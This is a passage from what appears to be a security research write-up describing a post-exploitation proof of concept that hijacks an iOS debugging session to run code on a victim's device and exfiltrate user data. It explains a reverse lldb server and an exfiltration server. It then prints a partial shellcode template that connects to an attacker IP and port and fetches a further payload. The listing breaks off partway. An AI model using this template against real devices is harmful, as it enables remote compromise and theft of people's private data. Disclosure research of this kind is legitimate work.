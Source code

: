 Wikipedia - [Recontextualisation](https://en.wikipedia.org/wiki/Recontextualisation)

`rec0ntextualizer` is our post-exploitation PoC that gains remote code execution on the victim's device through the hijacked debugging session to exfiltrate sensitive user data. It spawns two servers that help in facilitating this:

* reverse-lldb-server
  Starts `lldb` and listens for an incoming connection from the exploit handling code (see `ConnectToReverseLLDBServer` in `/c0ntextomy/src/exploit/exploit.go`) which in turn makes it connect `lldb` back to the running debugserver through the hijacked debugging session by using the `gdb-remote fd://` method described in the previous section. Once attached, it will bootstrap the debugged process to prepare it for loading a payload that will handle the exfiltration.
* exfiltration-server
  Listens for connections from the bootstrapping shellcode. Once connected it will serve an initial shellcode payload that - through additional payloads - handles the exfiltration, and receives the exfiltrated data back, storing them in an `artifacts` directory.

The bootstrapping, payload injection, and payload execution are outlined in the following chapter.

### Payload injection and gaining persistence
Since the exploit gives us full control over the debugged process, we can do whatever we want with it. To facilitate easy and reliable data exfiltration, we inject a payload that will also allow us to gain persistence and leave the hijacked session quickly.

Using lldb's `expression` feature we bootstrap the debugged process with a few lines of code that `lldb` will translate into shellcode for us. The following listing shows the (commented) expression template we are sending through the hijacked session. `PORT_NUMBER`, `IP_ADDRESS`, `PTRAUTH_SIGN_UNAUTHENTICATED_FUNC`, `ARCH`, and `SESSION_ID` will be dynamically assigned before passing it through the attacking `lldb` client.

_Note: on arm64e CPUs (A12 SoCs and up) there is a control-flow mitigation, also known as PAC which requires us to sign pointers. This is done by dynamically assigning the `PTRAUTH_SIGN_UNAUTHENTICATED_FUNC` macro on PAC enabled SoCs and use the standard signing facilities to sign a pointer to our payload._

```
// A template populated by rec0ntextulizer,
// compiled into shellcode and executed
// using lldb's expression evaluator

// Expanded at load time for all sessions
#define PORT_NUMBER {PORT_NUMBER}
#define IP_ADDRESS "{IP_ADDRESS}"

// Device/session specific configuration, expanded right before evaluation
#define PTRAUTH_SIGN_UNAUTHENTICATED_FUNC(p) {{PAC_SIGN_FUNC}}
#define ARCH "{{ARCH}}"
#define SESSION_ID "{{SESSION_ID}}"


// connect to exfiltration server
int fd = socket(AF_INET, SOCK_STREAM, 0);
sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(PORT_NUMBER);
addr.sin_addr.s_addr = inet_addr(IP_ADDRESS);
connect(fd, (struct sockaddr *)&addr, sizeof(sockaddr_in));

// send arch type
send(fd, ARCH, sizeof(ARCH) - 1, 0);

// receive payload size
uint64_t len = 0;
recv(fd, &len, sizeof(uint64_t), MSG_WAITALL);

// allocate buffer for payload
```